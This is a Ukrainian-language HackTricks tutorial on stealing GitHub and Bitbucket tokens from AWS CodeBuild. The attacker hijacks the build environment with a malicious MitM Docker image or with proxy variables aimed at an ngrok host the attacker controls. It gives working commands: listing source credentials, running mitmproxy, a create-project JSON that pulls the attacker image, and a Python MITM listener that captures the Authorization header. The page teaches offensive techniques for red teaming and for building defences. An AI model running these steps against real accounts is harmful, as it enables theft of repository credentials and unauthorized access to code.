 # AWS Codebuild - Витік токенів

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

## Відновлення налаштованих токенів Github/Bitbucket

Спочатку перевірте, чи є налаштовані будь-які джерела облікових даних, які ви можете витікати:
```bash
aws codebuild list-source-credentials
```
### Через Docker Image

Якщо ви виявите, що аутентифікація, наприклад, в Github встановлена в обліковому записі, ви можете **ексфільтрувати** цей **доступ** (**токен GH або токен OAuth**) за допомогою того, щоб Codebuild використовував **конкретний образ Docker** для запуску збірки проекту.

Для цієї цілі ви можете **створити новий проект Codebuild** або змінити **середовище** існуючого, щоб встановити **образ Docker**.

Образ Docker, який ви можете використовувати, знаходиться за посиланням [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Це дуже базовий образ Docker, який встановить **змінні середовища `https_proxy`**, **`http_proxy`** та **`SSL_CERT_FILE`**. Це дозволить вам перехоплювати більшість трафіку хоста, вказаного в **`https_proxy`** та **`http_proxy`**, і довіряти SSL-сертифікату, вказаному в **`SSL_CERT_FILE`**.

1. **Створіть та завантажте свій власний образ Docker MitM**
* Дотримуйтесь інструкцій репозиторію, щоб встановити IP-адресу вашого проксі та встановити свій SSL-сертифікат та **побудувати образ Docker**.
* **НЕ ВСТАНОВЛЮЙТЕ `http_proxy`**, щоб не перехоплювати запити до кінцевої точки метаданих.
* Ви можете використовувати **`ngrok`**, наприклад, `ngrok tcp 4444`, щоб встановити проксі до вашого хоста.
* Після побудови образу Docker **завантажте його в публічний репозиторій** (Dockerhub, ECR...)
2. **Встановіть середовище**
* Створіть **новий проект Codebuild** або **змініть** середовище існуючого.
* Встановіть проект для використання **раніше згенерованого образу Docker**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Встановіть MitM проксі на вашому хості**

* Як вказано в **репозиторії Github**, ви можете використовувати щось на зразок:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Використана версія **mitmproxy була 9.0.1**, було повідомлено, що з версією 10 це може не працювати.
{% endhint %}

4. **Запустіть збірку та захопіть облікові дані**

*   Ви можете побачити токен у заголовку **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Це також можна зробити з aws cli щось на зразок

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### ~~Через протокол HTTP~~

{% hint style="success" %}
**Ця уразливість була виправлена AWS на якийсь момент тижня 20 лютого 2023 року (я думаю, у п'ятницю). Тому зловмисник не може вже зловживати нею :)**
{% endhint %}

Зловмисник з **підвищеними дозволами в CodeBuild може витікати токен Github/Bitbucket**, налаштований або якщо дозволи були налаштовані через OAuth, **тимчасовий токен OAuth, використаний для доступу до коду**.

* Зловмисник може додати змінні середовища **http\_proxy** та **https\_proxy** до проекту CodeBuild, спрямовуючи їх на свій комп'ютер (наприклад, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Потім змініть URL-адресу репозиторію github на використання HTTP замість HTTPS, наприклад: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, на який вказують змінні проксі (http\_proxy та https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Натисніть на **Побудувати проект**, **підтвердження** буде **відправлено у відкритому вигляді** (base64) на порт mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Тепер зловмиснику буде можливість використовувати токен зі свого комп'ютера, переглядати всі привілеї, які він має, та (зловживати) легше, ніж використовуючи службу CodeBuild безпосередньо.
{% endhint %}

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити свою **компанію рекламовану в HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи телеграм**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
